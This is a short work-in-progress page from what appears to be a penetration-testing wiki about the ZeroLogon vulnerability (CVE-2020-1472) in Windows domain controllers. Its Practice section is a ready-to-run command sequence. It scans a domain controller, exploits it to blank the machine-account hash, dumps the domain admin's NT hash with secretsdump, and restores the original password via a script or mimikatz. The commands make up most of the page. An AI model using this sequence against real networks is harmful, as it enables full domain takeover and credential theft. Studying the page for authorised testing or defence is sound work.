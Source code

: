 # 🛠️ ZeroLogon \(CVE-2020-1472\)

{% hint style="danger" %}
**This is a work-in-progress**. It's indicated with the 🛠️ emoji in the page name or in the category name
{% endhint %}

## Theory

This attack exploits an insecure customized cryptographic protocol used in the NetLogon Remote Protocol. It allows attackers to change the password of the domain controller computer account, hence giving those attackers domain admin privileges.

## Practice

This exploit changes the NT hash of the domain controller computer account in the Active Directory, but not in the local SAM database, hence creating some issues in Active Directory domains. In order to prevent denial of service, attackers can exploit the CVE, find the NT hash of the domain controller machine account before it was changed, and set it back in the AD.

```bash
# Scan for the vulnerability (https://github.com/SecuraBV/CVE-2020-1472)
zerologon-scan 'DC_name' 'DC_IP_address'

# Exploit the vulnerability: set the NT hash to \x00*8 (https://github.com/dirkjanm/CVE-2020-1472/blob/master/cve-2020-1472-exploit.py)
zerologon-exploit 'DC_name' 'DC_IP_address'

# Obtain the Domain Admin's NT hash
secretsdump -no-pass 'Domain'/'DC_computer_account$'@'Domain_controller'

# Obtain the machine account hex encoded password with the domain admin credentials
secretsdump -hashes :'NThash' 'Domain'/'Domain_admin'@'Domain_controller'

# Restore the machine account password (https://github.com/dirkjanm/CVE-2020-1472/blob/master/restorepassword.py)
# Exemple zerologon-restore breaking/dc01@dc01 -target-ip 192.168.56.101 hexpass
zerologon-restore 'Domain'/'DC_account'@'Domain_controller' -target-ip 'DC_IP_address' -hexpass 'DC_hexpass'

# (alternate option mimikatz) Change the NT hash of the domain controller machine account in the AD back to its original value
lsadump::changentlm /server:'DC.DOMAIN.LOCAL'  /user:'DC_name$' /oldntlm:31d6cfe0d16ae931b73c59d7e0c089c0 /newntlm:'old_NThash'
```



## References

{% embed url="https://www.secura.com/blog/zero-logon" caption="" %}

{% embed url="https://github.com/dirkjanm/CVE-2020-1472" %}



